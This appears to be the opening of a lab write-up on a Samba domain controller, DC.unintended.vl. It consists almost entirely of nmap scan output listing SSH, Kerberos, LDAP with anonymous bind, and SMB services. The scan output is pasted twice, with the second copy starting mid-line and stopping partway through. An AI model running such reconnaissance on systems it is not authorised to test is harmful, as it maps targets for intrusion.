

I can immediately spot that this is a DC controller in a Linux based world:

```bash
PORT      STATE SERVICE      REASON         VERSION
22/tcp    open  ssh          syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:dd:96:5e:a9:77:be:ef:7c:54:4f:38:55:bf:69:c3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN5GJv3agTVOTvBSSviRDpZicfTbt8GBqUD2M5p6CM9OcpG5ieNJLUvSLX9Zt1YYE49eJqIMWlWh5nsHRbR926s=
|   256 f4:c3:6c:24:cf:eb:93:f4:14:3f:98:98:2d:fa:cb:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDwyZJVkoQfGVoBe7SKI1AtQ/ceWCC7jiPzNzoUFZ6j0
53/tcp    open  domain       syn-ack ttl 63 (generic dns response: NOTIMP)
88/tcp    open  kerberos-sec syn-ack ttl 63 (server time: 2026-03-19 10:32:57Z)
| fingerprint-strings: 
|   Kerberos: 
|     d~b0`
|     20260319103257Z
|     krbtgt
|_    client in request
135/tcp   open  msrpc        syn-ack ttl 63 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 63 Samba smbd 4
389/tcp   open  ldap         syn-ack ttl 63 (Anonymous bind OK)
| ssl-cert: Subject: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated HOST certificate
| Issuer: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated CA certificate
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-24T19:33:59
| Not valid after:  2026-01-24T19:33:59
| MD5:     6895 e6d1 03d5 bd19 d1c4 7247 7229 13c2
| SHA-1:   0f21 c144 a73b c61d cfa5 e48c 56c7 9d27 4c01 2d88
| SHA-256: 8c31 865a 2de3 2015 1a04 bc8e a683 c6fb f424 1a58 9e96 2b89 b475 cbdc 8daf 8586
| -----BEGIN CERTIFICATE-----
| MIIFqjCCA5KgAwIBAgIEp0TaZTANBgkqhkiG9w0BAQsFADBzMR0wGwYDVQQKExRT
| YW1iYSBBZG1pbmlzdHJhdGlvbjE3MDUGA1UECxMuU2FtYmEgLSB0ZW1wb3Jhcnkg
| YXV0b2dlbmVyYXRlZCBDQSBjZXJ0aWZpY2F0ZTEZMBcGA1UEAxMQREMudW5pbnRl
| bmRlZC52bDAeFw0yNDAyMjQxOTMzNTlaFw0yNjAxMjQxOTMzNTlaMHUxHTAbBgNV
| BAoTFFNhbWJhIEFkbWluaXN0cmF0aW9uMTkwNwYDVQQLEzBTYW1iYSAtIHRlbXBv
| cmFyeSBhdXRvZ2VuZXJhdGVkIEhPU1QgY2VydGlmaWNhdGUxGTAXBgNVBAMTEERD
| LnVuaW50ZW5kZWQudmwwggIiMA0GCSqGSIb3DQEBAQUAA4ICDwAwggIKAoICAQCg
| 7wUlDq0Dde3+T4izCq2l6XulttkTCoRQ6aZHLBOM7P1/2Th7HI4OQnVjdIYDhsiY
| oZJMUzbrNVPn9u6Jwj+R0MILVxb8JC9tjRMMdekK8Og8qrOEE2Ywu8lZzuFYk5+3
| eZKi4YWhDtwJv7VmmPsMhEvTZzSFcYq5X3uT2fTDmME3bVTDbv6SQZVaqvWGIXSe
| KIK+JDBKqc9QTyvFTDWQVq2azrPhQ/KPM4RZvJjbYoE80IPpYfFsDxISE1sEBywz
| 0uJhkhs4vOiPUliGXAhB/FmF+d1+/uxZ34gqTXi4CNZkRrmFy2rXnBRlFjjCZEnl
| Ir3VsFFH5B0hh3lo02yySlpLpcue770FkWoyLOHQAzDmtr74IgU1+S+pOiLYKiI2
| Onnu4hLOMALVgJ9P+0Hbl2ORsI2addQcL0CRpvoz5NueWUoIGlD1ItjrgspC5cAX
| EgKw0PhpYikCwFikNdrsiwEr9cSYTEx8EfcKQf5sgNidv0tVg3VDs/Y1vbSVufag
| lPvVmHCaLilnGq8Mo1HGjkg1mcW7Kgxy0k5WTsnhBcXNbu3+ihAJG06gaO3iv5gO
| UOE0u6c2ZpmfF+KPe6WaORCGI28QN1XLZvmaYfotWSVY1VGKCJAcKXoTfYDMyIem
| Hu14FdwFUvFyq7I8RffiO6BITW4RWa9KvftRfFh6VQIDAQABo0QwQjAMBgNVHRMB
| Af8EAjAAMBMGA1UdJQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBR9fWQgQddm0Opp
| Jr9Sd6xqu0+0CTANBgkqhkiG9w0BAQsFAAOCAgEAjknUxQ9l1mH7HHesVTJYbFjZ
| nfv/H7qCAWbB32Z9QT3HCBtN90EKyMQwSMtvLBl4uGs8uDttoNl7cj+TLpJ6whvC
| kHuIkaiSiOVJNFL3mFtIGX0ZHgqA6c54VhFNaLqWo7UN35fN8+HdbFe0+0UqXy0u
| JPcZT5BUY1pED0E/nyV+wtUuEc34S1i009qBhBKc9cPYbeafhs6JFRgea9bHfd/q
| FA6oDyWfoRH0KZL9KqvDGGIydsSDcjsf1fuANf10RhC1w7xQmGtFlHF2ZUbsI3bj
| QIAe3Vt/f71kVGfm2FqK5IJA1lJhXjEUoIwx+JCaL1DVVcK1p9nv01YJn2tIIBj/
| UhSXEKWyadtH7FrjPozR2053DosYP14VPz33gLILoq7JEzPVPJBtc13W6Psg1HcG
| 1AbM0dXej4/m0X6OjQgC//YDaUaZeM8a9sHca18Lw7zp2/zuw8Sm9AMK8hq1xjgH
| u57HFu0TmJINCxxfKVD7r4p7Auhaq4+usXNtCYkpDHBwle44Y4qBoofsLSHoov0I
| SsJqiBk1PqZKu5GkvqPaiYd78Sx1+W34kJG14T/FZXho2uQRBzY2GkFQYg2nkDNp
| X8op47YJDpZZa8AJQzfmPbZUKaXNNwpQ4c1R76L3A/jMaxp9U1xsubYl8Qfuiqhh
| ad0oZg1iIDGRdPWaWa8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  netbios-ssn  syn-ack ttl 63 Samba smbd 4
464/tcp   open  kpasswd5?    syn-ack ttl 63
636/tcp   open  ssl/ldap     syn-ack ttl 63 (Anonymous bind OK)
| ssl-cert: Subject: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated HOST certificate
| Issuer: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated CA certificate
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-24T19:33:59
| Not valid after:  2026-01-24T19:33:59
| MD5:     6895 e6d1 03d5 bd19 d1c4 7247 7229 13c2
| SHA-1:   0f21 c144 a73b c61d cfa5 e48c 56c7 9d27 4c01 2d88
| SHA-256: 8c31 865a 2de3 2015 1a04 bc8e a683 c6fb f424 1a58 9e96 2b89 b475 cbdc 8daf 8586
| -----BEGIN CERTIFICATE-----
| MIIFqjCCA5KgAwIBAgIEp0TaZTANBgkqhkiG9w0BAQsFADBzMR0wGwYDVQQKExRT
| YW1iYSBBZG1pbmlzdHJhdGlvbjE3MDUGA1UECxMuU2FtYmEgLSB0ZW1wb3Jhcnkg
| YXV0b2dlbmVyYXRlZCBDQSBjZXJ0aWZpY2F0ZTEZMBcGA1UEAxMQREMudW5pbnRl
| bmRlZC52bDAeFw0yNDAyMjQxOTMzNTlaFw0yNjAxMjQxOTMzNTlaMHUxHTAbBgNV
| BAoTFFNhbWJhIEFkbWluaXN0cmF0aW9uMTkwNwYDVQQLEzBTYW1iYSAtIHRlbXBv
| cmFyeSBhdXRvZ2VuZXJhdGVkIEhPU1QgY2VydGlmaWNhdGUxGTAXBgNVBAMTEERD
| LnVuaW50ZW5kZWQudmwwggIiMA0GCSqGSIb3DQEBAQUAA4ICDwAwggIKAoICAQCg
| 7wUlDq0Dde3+T4izCq2l6XulttkTCoRQ6aZHLBOM7P1/2Th7HI4OQnVjdIYDhsiY
| oZJMUzbrNVPn9u6Jwj+R0MILVxb8JC9tjRMMdekK8Og8qrOEE2Ywu8lZzuFYk5+3
| eZKi4YWhDtwJv7VmmPsMhEvTZzSFcYq5X3uT2fTDmME3bVTDbv6SQZVaqvWGIXSe
| KIK+JDBKqc9QTyvFTDWQVq2azrPhQ/KPM4RZvJjbYoE80IPpYfFsDxISE1sEBywz
| 0uJhkhs4vOiPUliGXAhB/FmF+d1+/uxZ34gqTXi4CNZkRrmFy2rXnBRlFjjCZEnl
| Ir3VsFFH5B0hh3lo02yySlpLpcue770FkWoyLOHQAzDmtr74IgU1+S+pOiLYKiI2
| Onnu4hLOMALVgJ9P+0Hbl2ORsI2addQcL0CRpvoz5NueWUoIGlD1ItjrgspC5cAX
| EgKw0PhpYikCwFikNdrsiwEr9cSYTEx8EfcKQf5sgNidv0tVg3VDs/Y1vbSVufag
| lPvVmHCaLilnGq8Mo1HGjkg1mcW7Kgxy0k5WTsnhBcXNbu3+ihAJG06gaO3iv5gO
| UOE0u6c2ZpmfF+KPe6WaORCGI28QN1XLZvmaYfotWSVY1VGKCJAcKXoTfYDMyIem
| Hu14FdwFUvFyq7I8RffiO6BITW4RWa9KvftRfFh6VQIDAQABo0QwQjAMBgNVHRMB
| Af8EAjAAMBMGA1UdJQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBR9fWQgQddm0Opp
| Jr9Sd6xqu0+0CTANBgkqhkiG9w0BAQsFAAOCAgEAjknUxQ9l1mH7HHesVTJYbFjZ
| nfv/H7qCAWbB32Z9QT3HCBtN90EKyMQwSMtvLBl4uGs8uDttoNl7cj+TLpJ6whvC
| kHuIkaiSiOVJNFL3mFtIGX0ZHgqA6c54VhFNaLqWo7UN35fN8+HdbFe0+0UqXy0u
| JPcZT5BUY1pED0E/nyV+wtUuEc34S1i009qBhBKc9cPYbeafhs6JFRgea9bHfd/q
| FA6oDyWfoRH0KZL9KqvDGGIydsSDcjsf1fuANf10RhC1w7xQmGtFlHF2ZUbsI3bj
| QIAe3Vt/f71kVGfm2FqK5IJA1lJhXjEUoIwx+JCaL1DVVcK1p9nv01YJn2tIIBj/
| UhSXEKWyadtH7FrjPozR2053DosYP14VPz33gLILoq7JEzPVPJBtc13W6Psg1HcG
| 1AbM0dXej4/m0X6OjQgC//YDaUaZeM8a9sHca18Lw7zp2/zuw8Sm9AMK8hq1xjgH
| u57HFu0TmJINCxxfKVD7r4p7Auhaq4+usXNtCYkpDHBwle44Y4qBoofsLSHoov0I
| SsJqiBk1PqZKu5GkvqPaiYd78Sx1+W34kJG14T/FZXho2uQRBzY2GkFQYg2nkDNp
| X8op47YJDpZZa8AJQzfmPbZUKaXNNwpQ4c1R76L3A/jMaxp9U1xsubYl8Qfuiqhh
| ad0oZg1iIDGRdPWaWa8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap         syn-ack ttl 63 (Anonymous bind OK)
| ssl-cert: Subject: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated HOST certificate
| Issuer: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated CA certificate
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-24T19:33:59
| Not valid after:  2026-01-24T19:33:59
| MD5:     6895 e6d1 03d5 bd19 d1c4 7247 7229 13c2
| SHA-1:   0f21 c144 a73b c61d cfa5 e48c 56c7 9d27 4c01 2d88
| SHA-256: 8c31 865a 2de3 2015 1a04 bc8e a683 c6fb f424 1a58 9e96 2b89 b475 cbdc 8daf 8586
| -----BEGIN CERTIFICATE-----
| MIIFqjCCA5KgAwIBAgIEp0TaZTANBgkqhkiG9w0BAQsFADBzMR0wGwYDVQQKExRT
| YW1iYSBBZG1pbmlzdHJhdGlvbjE3MDUGA1UECxMuU2FtYmEgLSB0ZW1wb3Jhcnkg
| YXV0b2dlbmVyYXRlZCBDQSBjZXJ0aWZpY2F0ZTEZMBcGA1UEAxMQREMudW5pbnRl
| bmRlZC52bDAeFw0yNDAyMjQxOTMzNTlaFw0yNjAxMjQxOTMzNTlaMHUxHTAbBgNV
| BAoTFFNhbWJhIEFkbWluaXN0cmF0aW9uMTkwNwYDVQQLEzBTYW1iYSAtIHRlbXBv
| cmFyeSBhdXRvZ2VuZXJhdGVkIEhPU1QgY2VydGlmaWNhdGUxGTAXBgNVBAMTEERD
| LnVuaW50ZW5kZWQudmwwggIiMA0GCSqGSIb3DQEBAQUAA4ICDwAwggIKAoICAQCg
| 7wUlDq0Dde3+T4izCq2l6XulttkTCoRQ6aZHLBOM7P1/2Th7HI4OQnVjdIYDhsiY
| oZJMUzbrNVPn9u6Jwj+R0MILVxb8JC9tjRMMdekK8Og8qrOEE2Ywu8lZzuFYk5+3
| eZKi4YWhDtwJv7VmmPsMhEvTZzSFcYq5X3uT2fTDmME3bVTDbv6SQZVaqvWGIXSe
| KIK+JDBKqc9QTyvFTDWQVq2azrPhQ/KPM4RZvJjbYoE80IPpYfFsDxISE1sEBywz
| 0uJhkhs4vOiPUliGXAhB/FmF+d1+/uxZ34gqTXi4CNZkRrmFy2rXnBRlFjjCZEnl
| Ir3VsFFH5B0hh3lo02yySlpLpcue770FkWoyLOHQAzDmtr74IgU1+S+pOiLYKiI2
| Onnu4hLOMALVgJ9P+0Hbl2ORsI2addQcL0CRpvoz5NueWUoIGlD1ItjrgspC5cAX
| EgKw0PhpYikCwFikNdrsiwEr9cSYTEx8EfcKQf5sgNidv0tVg3VDs/Y1vbSVufag
| lPvVmHCaLilnGq8Mo1HGjkg1mcW7Kgxy0k5WTsnhBcXNbu3+ihAJG06gaO3iv5gO
| UOE0u6c2ZpmfF+KPe6WaORCGI28QN1XLZvmaYfotWSVY1VGKCJAcKXoTfYDMyIem
| Hu14FdwFUvFyq7I8RffiO6BITW4RWa9KvftRfFh6VQIDAQABo0QwQjAMBgNVHRMB
| Af8EAjAAMBMGA1UdJQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBR9fWQgQddm0Opp
| Jr9Sd6xqu0+0CTANBgkqhkiG9w0BAQsFAAOCAgEAjknUxQ9l1mH7HHesVTJYbFjZ
| nfv/H7qCAWbB32Z9QT3HCBtN90EKyMQwSMtvLBl4uGs8uDttoNl7cj+TLpJ6whvC
| kHuIkaiSiOVJNFL3mFtIGX0ZHgqA6c54VhFNaLqWo7UN35fN8+HdbFe0+0UqXy0u
| JPcZT5BUY1pED0E/nyV+wtUuEc34S1i009qBhBKc9cPYbeafhs6JFRgea9bHfd/q
| FA6oDyWfoRH0KZL9KqvDGGIydsSDcjsf1fuANf10RhC1w7xQmGtFlHF2ZUbsI3bj
| QIAe3Vt/f71kVGfm2FqK5IJA1lJhXjEUoIwx+JCaL1DVVcK1p9nv01YJn2tIIBj/
| UhSXEKWyadtH7FrjPozR2053DosYP14VPz33gLILoq7JEzPVPJBtc13W6Psg1HcG
| 1AbM0dXej4/m0X6OjQgC//YDaUaZeM8a9sHca18Lw7zp2/zuw8Sm9AMK8hq1xjgH
| u57HFu0TmJINCxxfKVD7r4p7Auhaq4+usXNtCYkpDHBwle44Y4qBoofsLSHoov0I
| SsJqiBk1PqZKu5GkvqPaiYd78Sx1+W34kJG14T/FZXho2uQRBzY2GkFQYg2nkDNp
| X8op47YJDpZZa8AJQzfmPbZUKaXNNwpQ4c1R76L3A/jMaxp9U1xsubYl8Qfuiqhh
| ad0oZg1iIDGRdPWaWa8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap     syn-ack ttl 63 (Anonymous bind OK)
| ssl-cert: Subject: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated HOST certificate
| Issuer: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated CA certificate
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-24T19:33:59
| Not valid after:  2026-01-24T19:33:59
| MD5:     6895 e6d1 03d5 bd19 d1c4 7247 7229 13c2
| SHA-1:   0f21 c144 a73b c61d cfa5 e48c 56c7 9d27 4c01 2d88
| SHA-256: 8c31 865a 2de3 2015 1a04 bc8e a683 c6fb f424 1a58 9e96 2b89 b475 cbdc 8daf 8586
| -----BEGIN CERTIFICATE-----
| MIIFqjCCA5KgAwIBAgIEp0TaZTANBgkqhkiG9w0BAQsFADBzMR0wGwYDVQQKExRT
| YW1iYSBBZG1pbmlzdHJhdGlvbjE3MDUGA1UECxMuU2FtYmEgLSB0ZW1wb3Jhcnkg
| YXV0b2dlbmVyYXRlZCBDQSBjZXJ0aWZpY2F0ZTEZMBcGA1UEAxMQREMudW5pbnRl
| bmRlZC52bDAeFw0yNDAyMjQxOTMzNTlaFw0yNjAxMjQxOTMzNTlaMHUxHTAbBgNV
| BAoTFFNhbWJhIEFkbWluaXN0cmF0aW9uMTkwNwYDVQQLEzBTYW1iYSAtIHRlbXBv
| cmFyeSBhdXRvZ2VuZXJhdGVkIEhPU1QgY2VydGlmaWNhdGUxGTAXBgNVBAMTEERD
| LnVuaW50ZW5kZWQudmwwggIiMA0GCSqGSIb3DQEBAQUAA4ICDwAwggIKAoICAQCg
| 7wUlDq0Dde3+T4izCq2l6XulttkTCoRQ6aZHLBOM7P1/2Th7HI4OQnVjdIYDhsiY
| oZJMUzbrNVPn9u6Jwj+R0MILVxb8JC9tjRMMdekK8Og8qrOEE2Ywu8lZzuFYk5+3
| eZKi4YWhDtwJv7VmmPsMhEvTZzSFcYq5X3uT2fTDmME3bVTDbv6SQZVaqvWGIXSe
| KIK+JDBKqc9QTyvFTDWQVq2azrPhQ/KPM4RZvJjbYoE80IPpYfFsDxISE1sEBywz
| 0uJhkhs4vOiPUliGXAhB/FmF+d1+/uxZ34gqTXi4CNZkRrmFy2rXnBRlFjjCZEnl
| Ir3VsFFH5B0hh3lo02yySlpLpcue770FkWoyLOHQAzDmtr74IgU1+S+pOiLYKiI2
| Onnu4hLOMALVgJ9P+0Hbl2ORsI2addQcL0CRpvoz5NueWUoIGlD1ItjrgspC5cAX
| EgKw0PhpYikCwFikNdrsiwEr9cSYTEx8EfcKQf5sgNidv0tVg3VDs/Y1vbSVufag
| lPvVmHCaLilnGq8Mo1HGjkg1mcW7Kgxy0k5WTsnhBcXNbu3+ihAJG06gaO3iv5gO
| UOE0u6c2ZpmfF+KPe6WaORCGI28QN1XLZvmaYfotWSVY1VGKCJAcKXoTfYDMyIem
| Hu14FdwFUvFyq7I8RffiO6BITW4RWa9KvftRfFh6VQIDAQABo0QwQjAMBgNVHRMB
| Af8EAjAAMBMGA1UdJQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBR9fWQgQddm0Opp
| Jr9Sd6xqu0+0CTANBgkqhkiG9w0BAQsFAAOCAgEAjknUxQ9l1mH7HHesVTJYbFjZ
| nfv/H7qCAWbB32Z9QT3HCBtN90EKyMQwSMtvLBl4uGs8uDttoNl7cj+TLpJ6whvC
| kHuIkaiSiOVJNFL3mFtIGX0ZHgqA6c54VhFNaLqWo7UN35fN8+HdbFe0+0UqXy0u
| JPcZT5BUY1pED0E/nyV+wtUuEc34S1i009qBhBKc9cPYbeafhs6JFRgea9bHfd/q
| FA6oDyWfoRH0KZL9KqvDGGIydsSDcjsf1fuANf10RhC1w7xQmGtFlHF2ZUbsI3bj
| QIAe3Vt/f71kVGfm2FqK5IJA1lJhXjEUoIwx+JCaL1DVVcK1p9nv01YJn2tIIBj/
| UhSXEKWyadtH7FrjPozR2053DosYP14VPz33gLILoq7JEzPVPJBtc13W6Psg1HcG
| 1AbM0dXej4/m0X6OjQgC//YDaUaZeM8a9sHca18Lw7zp2/zuw8Sm9AMK8hq1xjgH
| u57HFu0TmJINCxxfKVD7r4p7Auhaq4+usXNtCYkpDHBwle44Y4qBoofsLSHoov0I
| SsJqiBk1PqZKu5GkvqPaiYd78Sx1+W34kJG14T/FZXho2uQRBzY2GkFQYg2nkDNp
| X8op47YJDpZZa8AJQzfmPbZUKaXNNwpQ4c1R76L3A/jMaxp9U1xsubYl8Qfuiqhh
| ad0oZg1iIDGRdPWaWa8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
49152/tcp open  msrpc        syn-ack ttl 63 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 63 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 63 Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.98%I=7%D=3/19%Time=69BBD0E2%P=x86_64-pc-linux-gnu%r(DNSS
SF:tatusRequestTCP,E,"\0\x0c\0\0\x90\x04\0\0\0\0\0\0\0\0");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port88-TCP:V=7.98%I=7%D=3/19%Time=69BBD0DD%P=x86_64-pc-linux-gnu%r(Kerb
SF:eros,68,"\0\0\0d~b0`\xa0\x03\x02\x01\x05\xa1\x03\x02\x01\x1e\xa4\x11\x1
SF:8\x0f20260319103257Z\xa5\x05\x02\x03\x014\x80\xa6\x03\x02\x01\x06\xa9\x
SF:04\x1b\x02NM\xaa\x170\x15\xa0\x03\x02\x01\0\xa1\x0e0\x0c\x1b\x06krbtgt\
SF:x1b\x02NM\xab\x16\x1b\x14No\x20client\x20in\x20request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.XPORT      STATE SERVICE      REASON         VERSION
22/tcp    open  ssh          syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:dd:96:5e:a9:77:be:ef:7c:54:4f:38:55:bf:69:c3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN5GJv3agTVOTvBSSviRDpZicfTbt8GBqUD2M5p6CM9OcpG5ieNJLUvSLX9Zt1YYE49eJqIMWlWh5nsHRbR926s=
|   256 f4:c3:6c:24:cf:eb:93:f4:14:3f:98:98:2d:fa:cb:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDwyZJVkoQfGVoBe7SKI1AtQ/ceWCC7jiPzNzoUFZ6j0
53/tcp    open  domain       syn-ack ttl 63 (generic dns response: NOTIMP)
88/tcp    open  kerberos-sec syn-ack ttl 63 (server time: 2026-03-19 10:32:57Z)
| fingerprint-strings: 
|   Kerberos: 
|     d~b0`
|     20260319103257Z
|     krbtgt
|_    client in request
135/tcp   open  msrpc        syn-ack ttl 63 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 63 Samba smbd 4
389/tcp   open  ldap         syn-ack ttl 63 (Anonymous bind OK)
| ssl-cert: Subject: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated HOST certificate
| Issuer: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated CA certificate
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-24T19:33:59
| Not valid after:  2026-01-24T19:33:59
| MD5:     6895 e6d1 03d5 bd19 d1c4 7247 7229 13c2
| SHA-1:   0f21 c144 a73b c61d cfa5 e48c 56c7 9d27 4c01 2d88
| SHA-256: 8c31 865a 2de3 2015 1a04 bc8e a683 c6fb f424 1a58 9e96 2b89 b475 cbdc 8daf 8586
| -----BEGIN CERTIFICATE-----
| MIIFqjCCA5KgAwIBAgIEp0TaZTANBgkqhkiG9w0BAQsFADBzMR0wGwYDVQQKExRT
| YW1iYSBBZG1pbmlzdHJhdGlvbjE3MDUGA1UECxMuU2FtYmEgLSB0ZW1wb3Jhcnkg
| YXV0b2dlbmVyYXRlZCBDQSBjZXJ0aWZpY2F0ZTEZMBcGA1UEAxMQREMudW5pbnRl
| bmRlZC52bDAeFw0yNDAyMjQxOTMzNTlaFw0yNjAxMjQxOTMzNTlaMHUxHTAbBgNV
| BAoTFFNhbWJhIEFkbWluaXN0cmF0aW9uMTkwNwYDVQQLEzBTYW1iYSAtIHRlbXBv
| cmFyeSBhdXRvZ2VuZXJhdGVkIEhPU1QgY2VydGlmaWNhdGUxGTAXBgNVBAMTEERD
| LnVuaW50ZW5kZWQudmwwggIiMA0GCSqGSIb3DQEBAQUAA4ICDwAwggIKAoICAQCg
| 7wUlDq0Dde3+T4izCq2l6XulttkTCoRQ6aZHLBOM7P1/2Th7HI4OQnVjdIYDhsiY
| oZJMUzbrNVPn9u6Jwj+R0MILVxb8JC9tjRMMdekK8Og8qrOEE2Ywu8lZzuFYk5+3
| eZKi4YWhDtwJv7VmmPsMhEvTZzSFcYq5X3uT2fTDmME3bVTDbv6SQZVaqvWGIXSe
| KIK+JDBKqc9QTyvFTDWQVq2azrPhQ/KPM4RZvJjbYoE80IPpYfFsDxISE1sEBywz
| 0uJhkhs4vOiPUliGXAhB/FmF+d1+/uxZ34gqTXi4CNZkRrmFy2rXnBRlFjjCZEnl
| Ir3VsFFH5B0hh3lo02yySlpLpcue770FkWoyLOHQAzDmtr74IgU1+S+pOiLYKiI2
| Onnu4hLOMALVgJ9P+0Hbl2ORsI2addQcL0CRpvoz5NueWUoIGlD1ItjrgspC5cAX
| EgKw0PhpYikCwFikNdrsiwEr9cSYTEx8EfcKQf5sgNidv0tVg3VDs/Y1vbSVufag
| lPvVmHCaLilnGq8Mo1HGjkg1mcW7Kgxy0k5WTsnhBcXNbu3+ihAJG06gaO3iv5gO
| UOE0u6c2ZpmfF+KPe6WaORCGI28QN1XLZvmaYfotWSVY1VGKCJAcKXoTfYDMyIem
| Hu14FdwFUvFyq7I8RffiO6BITW4RWa9KvftRfFh6VQIDAQABo0QwQjAMBgNVHRMB
| Af8EAjAAMBMGA1UdJQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBR9fWQgQddm0Opp
| Jr9Sd6xqu0+0CTANBgkqhkiG9w0BAQsFAAOCAgEAjknUxQ9l1mH7HHesVTJYbFjZ
| nfv/H7qCAWbB32Z9QT3HCBtN90EKyMQwSMtvLBl4uGs8uDttoNl7cj+TLpJ6whvC
| kHuIkaiSiOVJNFL3mFtIGX0ZHgqA6c54VhFNaLqWo7UN35fN8+HdbFe0+0UqXy0u
| JPcZT5BUY1pED0E/nyV+wtUuEc34S1i009qBhBKc9cPYbeafhs6JFRgea9bHfd/q
| FA6oDyWfoRH0KZL9KqvDGGIydsSDcjsf1fuANf10RhC1w7xQmGtFlHF2ZUbsI3bj
| QIAe3Vt/f71kVGfm2FqK5IJA1lJhXjEUoIwx+JCaL1DVVcK1p9nv01YJn2tIIBj/
| UhSXEKWyadtH7FrjPozR2053DosYP14VPz33gLILoq7JEzPVPJBtc13W6Psg1HcG
| 1AbM0dXej4/m0X6OjQgC//YDaUaZeM8a9sHca18Lw7zp2/zuw8Sm9AMK8hq1xjgH
| u57HFu0TmJINCxxfKVD7r4p7Auhaq4+usXNtCYkpDHBwle44Y4qBoofsLSHoov0I
| SsJqiBk1PqZKu5GkvqPaiYd78Sx1+W34kJG14T/FZXho2uQRBzY2GkFQYg2nkDNp
| X8op47YJDpZZa8AJQzfmPbZUKaXNNwpQ4c1R76L3A/jMaxp9U1xsubYl8Qfuiqhh
| ad0oZg1iIDGRdPWaWa8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  netbios-ssn  syn-ack ttl 63 Samba smbd 4
464/tcp   open  kpasswd5?    syn-ack ttl 63
636/tcp   open  ssl/ldap     syn-ack ttl 63 (Anonymous bind OK)
| ssl-cert: Subject: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated HOST certificate
| Issuer: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated CA certificate
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-24T19:33:59
| Not valid after:  2026-01-24T19:33:59
| MD5:     6895 e6d1 03d5 bd19 d1c4 7247 7229 13c2
